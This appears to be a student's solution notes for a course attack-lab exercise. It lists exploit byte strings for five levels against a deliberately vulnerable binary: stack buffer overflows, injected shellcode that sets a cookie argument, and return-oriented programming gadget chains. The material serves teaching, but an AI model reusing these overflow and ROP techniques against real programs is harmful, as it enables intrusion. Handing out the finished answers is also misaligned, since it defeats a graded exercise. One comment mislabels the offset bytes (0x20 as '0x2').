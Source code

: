 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 0x00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```

## Level 4
- touch2 address: 0x00000000004017ec

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 4019ab    | popq %rax    |
    
    

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie value */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch2 */
```

## Level 5
- touch3 address: 0x00000000004018fa

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 401a06    | movq %rsp, %rax    |
| 4019dd    | movl %eax, %edx    |
| 401a34    | movl %edx, %ecx    |
| 401a13    | movl %ecx, %esi    |
| 4019ab    | popq %rax    |

- Useful function: add_xy, address: 0x00000000004019d6

**String**:
```
/* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Get offset and move it to %rsi */
ab 19 40 00 00 00 00 00 /* popq %rax, %rax = offset value */
20 00 00 00 00 00 00 00 /* offset value = 0x2 */
dd 19 40 00 00 00 00 00 /* movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* movl %ecx, %esi */

/* Get pointer to 2 lines below this one, add it to offset to get the pointer to cookie string */
06 1a 40 00 00 00 00 00 /* movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
d6 19 40 00 00 00 00 00 /* goto add_xy */

a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* goto touch3 */

/* cookie string */
35 39 62 39 39 37 66 61
00
```
